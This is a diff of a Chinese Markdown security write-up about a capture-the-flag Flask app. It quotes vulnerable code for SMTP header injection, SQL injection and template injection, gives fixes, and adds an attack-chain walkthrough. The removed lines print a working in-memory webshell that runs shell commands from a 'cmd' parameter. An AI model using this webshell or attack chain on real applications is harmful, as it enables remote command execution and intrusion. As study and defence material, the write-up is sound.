

Before and after one commit to zkzhy/Hello-Git, a Markdown page: Flask安全分析.md, the part around one of its changes. Shown at 85% size. Rendered like a GitHub page.

Commit message:
Update Flask security analysis with practical knowledge and step-by-step guide

````diff
--- a/Flask安全分析.md
+++ b/Flask安全分析.md
@@ -87,75 +107,71 @@ smtplib._quote_periods = lambda x: x
 mail_content = """From: ignored@ezmail.org\r\nTo: admin@ezmail.org\r\nSubject: {url}\r\n\r\n{content}\r\n.\r\n"""
-mail_content = mail_content.format(url=url, content=content)
+mail_content = mail_content.format(url=url, content=content)  # 直接拼接用户输入
 ```
 
-漏洞点：
-- 禁用了SMTP的点号转义机制
-- 直接将用户输入插入到邮件头中
-- 没有对`\r\n`等特殊字符进行过滤
+### 伪造邮件检索点
+```python
+status, messages = mail.search(None, 'FROM "admin@ezmail.org"')  # 仅根据From头过滤
+```
 
-修复方法：
-- 不要禁用安全机制(`smtplib._quote_periods`)
-- 过滤用户输入中的换行符和其他特殊字符
-- 使用专门的邮件构造库而不是手动构造
+### SQL注入点
+```python
+cursor.execute(f"SELECT title FROM news WHERE id = {news_id}")  # 直接拼接用户输入
+```
 
-### 3.3 服务器端模板注入(SSTI)
-
-在`/admin`路由中：
-
+### 模板注入点
 ```python
 return render_template_string(f"""
         <h2>Newest Advice(from myself)</h2>
         <div>{page_content}</div>
-""")
+""")  # 将不可信数据放入模板字符串
 ```
 
-漏洞点：
-- 将不可信数据直接插入模板字符串
-- 没有对模板表达式进行转义或过滤
-- 使用`render_template_string`而不是`render_template`
+## 5. 防御方法与修复建议
 
-修复方法：
-- 使用`render_template`并通过变量传递数据
-- 在模板中使用`{{ page_content|safe }}`显式标记可信内容
-- 过滤用户输入以移除潜在的模板表达式
+### SMTP注入防御
+- 不要禁用安全机制：删除`smtplib._quote_periods = lambda x: x`
+- 过滤换行符：`url = url.replace('\r', '').replace('\n', '')`
+- 使用专门的邮件库构造邮件
 
-### 3.4 未验证的URL访问
+### SQL注入防御
+- 使用参数化查询：`cursor.execute("SELECT title FROM news WHERE id = ?", (news_id,))`
+- 验证输入类型：`if not news_id.isdigit(): return "Invalid ID"`
 
-在`fetch_page_content`函数中：
+### 模板注入防御
+- 不直接使用`render_template_string`
+- 如需使用，确保内容经过严格净化：`content = escape(content)`
 
-```python
-parsed_url = urlparse(url)
-if parsed_url.scheme != 'http' or parsed_url.hostname != 'ezmail.org':
-    return "SSRF Attack!"
-```
+## 6. 实际CTF解题思路
 
-漏洞点：
-- 只验证了主机名和协议，没有验证端口和路径
-- 允许访问内部服务和敏感路由
+1. **发现线索**：首先检查代码，找到有趣的入口点
+   - 注意到SMTP邮件发送
+   - 管理员会根据邮件主题访问URL
+   - SQL查询直接拼接用户输入
 
-修复方法：
-- 更严格的URL验证（包括端口和路径）
-- 使用白名单方法：只允许访问特定的已知安全URL
-- 实现更完善的SSRF防护机制
+2. **构建攻击链**：思考如何将各漏洞串联起来
+   - "如何伪造管理员的邮件？" → SMTP头注入
+   - "如何注入自己的代码？" → SQL注入
+   - "如何执行代码？" → 模板注入
+   - "如何获得持续控制？" → 内存马
 
-## 4. 内存马技术分析
+3. **逐步测试**：
+   - 先测试简单的SMTP头注入
+   - 再测试SQL注入是否能返回自定义内容
+   - 尝试简单的模板表达式如`{{7*7}}`
+   - 最后构建完整的代码执行Payload
 
-### 4.1 内存马注入代码解析
+4. **获取FLAG**：
+   - 部署内存马后，执行命令如`cat /flag`或`ls -la`
+   - 如果FLAG在数据库中，可执行SQL语句查询
+   - 如果FLAG在内存中，可使用`ps`和`grep`等命令定位
 
-```python
-app.after_request_funcs.setdefault(None, []).append(
-    lambda resp: CmdResp if request.args.get('cmd') and
-    exec('global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())')==None
-    else resp
-)
-```
+## 7. 额外技巧
 
-关键技术点：
-- 利用Flask的`after_request_funcs`注册后处理钩子
-- 使用`exec`动态执行代码以避免静态分析
-- 通过URL参数`cmd`作为命令执行的触发器
-- 创建全局变量`CmdResp`存储命令执行结果
-- 条件表达式结构使代码更难理解
+- **三重反斜杠的使用**：
+  在多层注入中，每一层都需要处理转义：
+  - 第一层：SQL中的字符串需要转义
+  - 第二层：模板表达式中的字符串需要转义
+  - 第三层：eval中的字符串需要转义
 
-### 4.2 内存马特点
+  所以`\\\'`会在解析过程中变成`\'`再变成`'`
 
````
Also changed, not shown: other parts of Flask安全分析.md (+101 -209 lines).
